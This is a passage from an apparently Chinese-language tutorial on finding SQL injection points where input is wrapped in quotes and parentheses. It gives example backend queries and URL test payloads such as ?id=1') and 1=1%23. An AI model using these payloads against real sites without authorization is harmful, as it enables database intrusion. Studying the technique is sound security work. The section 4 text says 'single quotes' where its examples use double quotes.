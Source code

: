 



#### 3.	单引号＋括号



有些后端数据是被单引号和括号包裹进sql语句的，所以此处只需要使用`'`单引号和`()`小括号进行打断就行了。出现报错就表示此处有注入点。

然后用`%23`进行注释掉后端的语句就行了。（ps.`%23`，url解码后是#。）





例如：

```
select * from users where id=('前端数据') limit 0,1;
```





测试实例：

```
?id=1') and 1=1%23
?id=1') and 1=2%23
?id=1')=('0
```





#### 4.	双引号+括号



有些后端数据是被单引号和括号包裹进sql语句的，所以此处只需要使用`"`双引号和`()`小括号进行打断就行了。出现报错就表示此处有注入点。

然后用`%23`进行注释掉后端的语句就行了。（ps.`%23`，url解码后是#。）



例如：

```
select * from users where id=("前端数据") limit 0,1;
```





测试实例：

```
?id=1") and 1=1%23
?id=1") and 1=2%23
?id=1")=("0
```





#### 5.	未包裹
